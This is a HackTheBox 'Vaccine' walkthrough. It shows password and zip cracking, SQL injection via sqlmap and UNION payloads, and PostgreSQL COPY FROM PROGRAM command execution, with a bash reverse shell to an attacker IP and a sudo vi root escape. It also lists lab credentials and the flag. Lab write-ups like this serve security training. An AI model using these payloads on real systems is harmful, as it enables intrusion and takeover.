

## Recon 

- Target Information
```
Host = "10.10.10.46"
```


- nmap result 

```
# nmap -sV -sS 10.10.10.46
```


```
# nmap -O 10.10.10.46
```


- With the result, we know the open port 
    1. ssh service (port 22)
    2. ftp service (port 21)
    3. HTTP service (port 80)
- let's check the web 


- gobuster guess the path 


## Information Gathering 

### Using the discloure information from last challenge 

- In the last challenge, we find the frp user's password, try it now (ftpuser/mc@F1l3ZilL4)


- Find the zip file which name is backup.zip 
- It's a suspicious file 
- In FTP session , use ```get ``` command to download it


### Analyze and crack the zip file 

- [Zip crack](https://linuxconfig.org/how-to-crack-zip-password-on-kali-linux)
- Analyze the backup.zip file, first , unzip it
- But it is protected by passwrod 
- Use the crack tool :　fcrackzip


```
# fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip
```


- Get zip file secret : 741852963

### Analyze the source code 

- unzip the backup.zip
- In this zip file, there are 2 file
    1. index.php (It seems the source code of index page)
    2. style.css


- Read the index.php, we can find the admin password protected by md5 hash


- Try to crack it with online tool 
- [md5 crack](https://crackstation.net/)


- Get admin password : qwerty789
- Using the password to login and direct to dashboard.php page 


## Foothold 

- Check this page, the search function will show the search parameter in URL 


- Let's try to find the vulnerability on the search parameter


- Error message 
```
    ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%a'%' ^
```


- Using sqlmap scan the vulnerability 

```
# sqlmap -u http://10.10.10.46/dashboard.php?search=a --cookie='PHPSESSID=pbjf14pa57rmk9oi8o4luae69n' 
```


- Try to use UNION-Base Sqli to attack this web and find the sql version 

```
# ' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --
```

- We can know the DB is PostgreSQL and the version is 11.5


- There is exiting vulnerability for PostgreSQL which version greater than 9.3 - CVE-2019-9193

- PostgreSQL's cve（CVE-2019-9193）, the detail is 
    - The attacker who has the read permission of DB server can expoit this Loopholes and achiev the any command execution.
    - The detail research will write on [This article](https://hackmd.io/ak4VOQtDQKWEDWzIpKVMyQ)
    
- Exploit by sqlmap 

```
# sqlmap -u http://10.10.10.46/dashboard.php?search=a --cookie='PHPSESSID=pbjf14pa57rmk9oi8o4luae69n'  --os-shell
```

- Exploit manually 

```
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.14.107/1234 0>&1'''; -- 
```



- Get shell 


## Privileged Escalation 

- Get more information to escalation the Privileged 
```
# cat dashboard.php
```


```
# $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");

```


- Let’s upgrade to a tty shell and continue enumeration. 

```
SHELL=/bin/bash script -q /dev/null
```


- This password which found in the ```dashboard.php``` can be used to view the user’s sudo privileges.

```
sudo -l
```


- The user is allowed to edit the configuration ```/etc/postgresql/11/main/pg_hba.conf using vi.``` This can be leveraged to gain a root shell and access root.txt.

```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```


- In the vi screen, use ```:!/bin/sh``` to get the root permission 


- we get the root permission to execute the command 
- So, read the root.txt and get the flag


- Flag :　dd6e058e814260bc70e9bbdef2715849

## Reference 

- [Write up 1](https://www.linkedin.com/pulse/hack-box-starting-point-vaccine-nathan-barnes/?trk=read_related_article-card_title)
- [Write up 2](https://guidedhacking.com/threads/hackthebox-vaccine-walkthrough.17256/?__cf_chl_jschl_tk__=pmd_kPZGsez7ZWLKzEB5AJoX9AuGQVPhLUK_kFXUs3kGc.g-1632483722-0-gqNtZGzNAlCjcnBszQfR)
- [Write up 3](https://www.aldeid.com/wiki/HackTheBox-StartingPoint-Vaccine)
- [Write up 4](https://www.rffuste.com/2020/05/14/htb-starting-point-vaccine-write-up/)
- [Zip crack](https://linuxconfig.org/how-to-crack-zip-password-on-kali-linux)
- [md5 crack](https://crackstation.net/)
- [FTP command](https://www.howtoforge.com/tutorial/how-to-use-ftp-on-the-linux-shell/)
- [Postgresql 9.3 exploit db](https://www.exploit-db.com/exploits/46813)

### CVE Research 

- [CVE Detail - CVE-2019-9193](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9193)
- [NIST CVE-2019-9193](https://nvd.nist.gov/vuln/detail/CVE-2019-9193)
- [Postgresql CVE-2019-9193](https://www.postgresql.org/about/news/cve-2019-9193-not-a-security-vulnerability-1935/)
- [Reproduce-1 :  CVE-2019-9193](https://cloud.tencent.com/developer/article/1472565)
- [Reproduce-2 : CVE-2019-9193](https://zgao.top/cve-2019-9193-postgresql-%E9%AB%98%E6%9D%83%E9%99%90%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)
- [Reproduce-3 : CVE-2019-9193](http://pyspiderking.cn/index.php/2021/08/15/pg-cve-2019-9193/)


###### tags: `HackTheBox` `linux`